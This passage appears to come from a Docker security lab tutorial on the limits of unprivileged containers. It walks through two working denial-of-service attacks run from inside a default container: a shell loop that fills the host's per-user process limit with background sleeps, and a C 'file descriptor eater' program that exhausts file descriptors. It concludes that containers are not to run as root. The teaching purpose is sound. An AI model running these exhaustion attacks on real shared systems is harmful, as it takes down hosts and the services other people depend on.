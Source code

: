 ### Unprivileged containers

Try now to run an unprivilged container via the default `docker run` command:

```
docker run --rm -it ubuntu
```

Now try to re-use some of the techniques we have seen before to exploit privileged containers like:

```
mount -o rw,remount /proc/sys
```

you should get a `mount: permission denied`

why is that ?  
Yep we are running the container as root, but Docker drops a bunch of capabilities and therefore we cannot `remount`  
We also benefit from the cgroup and AppArmor protection.  

Good! We are safe!....aren't we ?  

Let's try this now:

```
exit
ulimit -a
```

Detect the max amount of process a user can have. (should be 64124)  
Open a new SSH shell and then: `ps -def | wc -l`  

```
docker run --rm -it ubuntu
for i in {1..32325}; do sleep infinity & done
```

Try now again on the other SSH shell with: `ps -def | wc -l`  

Yep we just DoS'd our machine.

Why did this happen ?  

Max User Processes: per user limit on the maximum number of processes. 


#### Max files

Max Files: per user limit on the maximum number of file descriptors that can be open.  
Copy this `C` snippet in a file called `file.c`, install the `build-essential` package from within the container and compile it via: `gcc file.c –o file`

```
/* file descriptor eater
** meant to be used in parallel ** @author jhertz */
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
int main(void) {
  int my_pid = getpid(); 
  char buf[128];
  int i = 0;
  for(i = 0; ; i++) {
    sprintf(buf, "/tmp/%d_%d", my_pid, i); int fd = open(buf, O_CREAT);
    if( -1 == fd) {
      printf("got to max fd# %d\n", i);
      break; 
    }
  }
  printf("stalling\n"); 
  for(;;);
}
```

After you built it with `gcc file.c –o file` run it via `./file`  

Let it run and then when you see the output `stalling` from a different shell try to touch a file via `touch test`  


#### Thoughts

Because we executed the container as root user we are allowed to install packages, which brought us to be able to build and execute a binary which fills up the FD.  
So NEVER run any container/process via `root` user!  

